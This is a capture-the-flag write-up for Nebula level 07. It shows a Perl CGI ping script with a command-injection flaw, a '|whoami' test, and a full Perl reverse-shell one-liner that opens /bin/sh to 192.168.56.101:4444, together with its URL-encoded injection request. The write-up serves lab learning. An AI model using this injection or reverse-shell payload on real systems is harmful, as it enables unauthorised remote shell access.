


# Level 07 - Nebula

```
The flag07 user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

To do this level, log in as the level07 account with the password level07. Files for this level can be found in /home/flag07.
```

```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

```
sh-4.2$ ls
index.cgi  thttpd.conf
```

This program uses the perl [CGI](https://www.cs.ait.ac.th/~on/O/oreilly/perl/learn32/ch18_04.htm) library to host a website from the ```/home/flag07``` directory (this is specified in the ```thttpd.conf``` file). It takes the ``` ?host``` parameter and pings it with straight up bash ```ping -c 3 $host 2>&1```.



This gives us command injection which we can test with ``` http://192.168.56.102:7007/index.cgi?Host=|%20whoami```

```
flag07
```

We can now pop a reverse shell by URL encoding this payload

```
perl -e 'use Socket;$i="192.168.56.101";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Which becomes

```
http://192.168.56.102:7007/index.cgi?Host=|perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.56.101%22%3B%24p%3D4444%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```


